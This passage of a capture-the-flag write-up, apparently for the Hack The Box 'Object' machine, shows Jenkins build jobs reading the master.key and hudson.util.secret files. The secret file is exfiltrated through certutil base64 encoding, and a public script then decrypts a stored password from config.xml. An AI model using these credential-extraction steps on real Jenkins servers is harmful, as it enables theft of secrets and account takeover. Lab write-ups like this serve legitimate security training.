 Cool, looks like we have some hashes. Lets grab the Jenkins master.key from `C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key`:

```
Started by remote host 10.10.14.214
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3
[test3] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins12622811519784325959.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3>type C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key 
f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3>exit 0 
Finished: SUCCESS
```

Lastly, we'll need to get the hudson.util.secret file from the target.

The way this file is encoded we can't simply issue `type <file>`, so we'll need to convert it to base64, then copy it over to our attacking machine, then decode it.

We can do that with: 

```
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3>certutil -encodehex -f "C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.secret" "output.txt" 0x40000001  1>nul 
```

Followed by:

```
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3>type output.txt 
gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
```

The we can decode and save to a file in our terminal:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ echo "gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=" | base64 -w 0 -d > hudson.util.secret
```

Cool, now that we have these three files we can use https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py to decrypt the password hash:


```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ python jenkins_offline_decrypt.py master.key hudson.util.secret config.xml
c1cdfun_d2434
```
